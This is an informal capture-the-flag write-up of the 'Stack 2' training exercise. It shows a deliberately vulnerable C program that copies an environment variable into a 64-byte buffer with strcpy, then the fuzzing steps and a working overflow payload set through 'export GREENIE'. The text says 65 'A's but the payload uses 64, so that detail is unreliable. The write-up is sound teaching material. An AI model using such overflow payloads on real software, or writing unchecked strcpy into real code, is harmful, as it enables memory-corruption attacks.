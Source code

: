 # [cd ../](../index.md)
# Stack 2
> Stack2 looks at environment variables, and how they can be set.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Fuzzin it
- We know we have to use stg about getenv(`man getenv` for literally nothing xd)
- Start setting a `GREENIE` environment variable to `test` (`export GREENIE=test` then execute `./stack2`)
  - Got nothing useful (`Try again, you got 0x00000000`)
- Set 64 `A` as GREENIE
  - Same
- Set 65 `A` as GREENIE
  - Gotcha `Try again, you got 0x00000041`

## Exploitin it
- We need `modified` to be `0x0d0a0d0a` and it's a lil endian elf again cuz `A` (41) popped on the end.
![ascii](ascii.png)  
`0x0d0a0d0a` is `0a0d0a0d` and these are `\n\r\n\r`. These 4 are special chars so we have to use python and work in base16 with them.

## The payload
GREENIE has to be  65 `A` + `\x0a\x0d\x0a\x0d`
```
export GREENIE=$(python -c 'print 64*"A" + "\x0a\x0d\x0a\x0d"')
./stack2
you have correctly modified the variable
```
BOOOOM GOT IT :D

